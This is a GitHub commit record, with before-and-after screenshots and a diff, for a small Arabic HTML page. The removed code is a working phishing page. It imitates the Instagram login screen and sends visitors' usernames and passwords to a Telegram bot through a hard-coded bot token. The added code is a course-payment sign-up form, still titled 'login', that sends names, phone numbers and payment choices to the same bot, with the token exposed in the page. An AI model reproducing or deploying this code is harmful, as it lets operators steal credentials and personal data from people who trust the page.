

Before and after one commit to hamzahamzahhh/Hhh, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 343-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,101 +6,128 @@
     <title>تسجيل الدخول</title>
     <style>
         body {
-            font-family: Arial, sans-serif;
-            background-color: #fafafa;
+            font-family: 'Arial', sans-serif;
+            background: #f7f7f7;
             display: flex;
             justify-content: center;
             align-items: center;
             height: 100vh;
             margin: 0;
         }
-        .login-container {
-            background-color: #fff;
-            border: 1px solid #dbdbdb;
+        .container {
+            background: linear-gradient(135deg, #f06, #ff9);
             border-radius: 10px;
-            width: 350px;
+            padding: 30px;
+            width: 300px;
             text-align: center;
-            padding: 40px;
-            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
+            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+            animation: fadeIn 1.5s ease-in-out;
         }
-        .logo {
-            font-size: 32px;
-            font-weight: bold;
-            color: #262626;
+        h2 {
             margin-bottom: 20px;
-            font-family: 'Helvetica Neue', Helvetica, Arial, sans-serif;
+            color: #fff;
+            font-size: 24px;
         }
-        input[type="text"], input[type="password"] {
+        input, select {
             width: 100%;
-            padding: 12px 15px;
-            margin: 8px 0;
-            border: 1px solid #dbdbdb;
+            padding: 10px;
+            margin: 10px 0;
+            border: 2px solid #ccc;
             border-radius: 5px;
-            background-color: #fafafa;
-            font-size: 14px;
+            box-sizing: border-box;
         }
-        input:focus {
-            outline: none;
-            border-color: #a3a3a3;
+        input[type="submit"] {
+            background-color: #4CAF50;
+            color: white;
+            cursor: pointer;
+            transition: background-color 0.3s;
         }
-        button {
-            width: 100%;
-            background-color: #0095f6;
-            color: white;
-            padding: 10px;
-            border: none;
-            border-radius: 5px;
-            font-weight: bold;
-            cursor: pointer;
-            margin-top: 10px;
+        input[type="submit"]:hover {
+            background-color: #45a049;
         }
-        button:hover {
-            background-color: #007acc;
+        @keyframes fadeIn {
+            0% {
+                opacity: 0;
+                transform: translateY(50px);
+            }
+            100% {
+                opacity: 1;
+                transform: translateY(0);
+            }
         }
     </style>
 </head>
 <body>
-    <div class="login-container">
-        <div class="logo">Instagram</div>
+
+    <div class="container">
+        <h2>تسجيل الدخول</h2>
         <form id="loginForm">
-            <input type="text" id="username" placeholder="اسم المستخدم" required />
-            <input type="password" id="password" placeholder="كلمة المرور" required />
-            <button type="submit">تسجيل الدخول</button>
+            <input type="text" id="fullName" placeholder="الاسم الكامل" required>
+            <input type="text" id="phoneNumber" placeholder="رقم الهاتف" required pattern="\d+" title="الرجاء إدخال أرقام فقط">
+            <select id="level" required>
+                <option value="">اختر المستوى</option>
+                <option value="أولى باك">أولى باك</option>
+                <option value="ثانية باك">ثانية باك</option>
+            </select>
+            <select id="subject" required>
+                <option value="">اختر المادة</option>
+                <option value="الفيزياء">الفيزياء</option>
+                <option value="الرياضيات">الرياضيات</option>
+            </select>
+            <label for="paymentMethod">طريقة الدفع:</label>
+            <select id="paymentMethod" required>
+                <option value="">اختر طريقة الدفع</option>
+                <option value="كاش بلوس">كاش بلوس</option>
+                <option value="بريد بنك">بريد بنك</option>
+                <option value="بايبال">بايبال</option>
+            </select>
+            <!-- تم إزالة حقل المبلغ لأن المبلغ ثابت (200DH) -->
+            <input type="submit" value="إرسال">
         </form>
     </div>
 
     <script>
-        const botToken = '8080174902:AAHX9XK3_Yd-TkY8Vq2LBzK8BGCWFmqy17o'; // توكن البوت
-        const chatId = '7203065656'; // معرف الدردشة الخاص بك
-        const secretKey = 'mySecretKey123'; // مفتاح التحقق
+        const loginForm = document.getElementById('loginForm');
 
-        document.getElementById('loginForm').addEventListener('submit', function(event) {
-            event.preventDefault(); // منع إرسال النموذج الافتراضي
+        loginForm.addEventListener('submit', function(event) {
+            event.preventDefault();
 
-            // جمع البيانات
-            const username = document.getElementById('username').value;
-            const password = document.getElementById('password').value;
+            // جمع القيم المدخلة
+            const fullName = document.getElementById('fullName').value;
+            const phoneNumber = document.getElementById('phoneNumber').value;
+            const level = document.getElementById('level').value;
+            const subject = document.getElementById('subject').value;
+            const paymentMethod = document.getElementById('paymentMethod').value;
 
-            // تحقق من أن البيانات تحتوي على المفتاح السري
-            if (username !== secretKey) {
-                alert("التحقق فشل! المفتاح السري غير صحيح.");
+            // المبلغ ثابت 200DH
+            const amount = 200;
+
+            // التحقق من أن رقم الهاتف يحتوي على أرقام فقط
+            const phoneRegex = /^\d+$/;
+            if (!phoneRegex.test(phoneNumber)) {
+                alert('يرجى إدخال رقم هاتف صالح يحتوي على أرقام فقط');
                 return;
             }
 
-            // رسالة التي ستُرسل
-            const message = `👤 اسم المستخدم: ${username}\n🔒 كلمة المرور: ${password}\n🔑 المفتاح السري: ${secretKey}`;
+            // توكن بوت تليغرام و ID
+            const token = '8080174902:AAHX9XK3_Yd-TkY8Vq2LBzK8BGCWFmqy17o';
+            const chatId = '7203065656';
 
-            // رابط API تيليغرام
-            const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
+            // الرسالة المرسلة إلى تليغرام
+            const message = `الاسم الكامل: ${fullName}\nرقم الهاتف: ${phoneNumber}\nالمستوى: ${level}\nالمادة: ${subject}\nطريقة الدفع: ${paymentMethod}\nالمبلغ: ${amount} درهم`;
 
-            // إرسال الطلب
-            fetch(url)
-                .catch(error => {
-                    console.error('Error:', error); // تسجيل الأخطاء في وحدة التحكم فقط
+            // إرسال البيانات إلى بوت تليغرام
+            fetch(`https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`)
+                .then(response => response.json())
+                .then(data => {
+                    if (data.ok) {
+                        alert("تم إرسال البيانات بنجاح!");
+                        // يمكنك إعادة توجيه المستخدم إلى الصفحة الثانية هنا إن أردت
+                        window.location.href = "page2.html"; // استبدل مع رابط الصفحة التالية
+                    } else {
+                        alert('حدث خطأ أثناء إرسال البيانات');
+                    }
                 });
-
-            // إعادة تعيين الحقول
-            document.getElementById('loginForm').reset(); // إعادة تعيين النموذج
         });
     </script>
 </body>
```
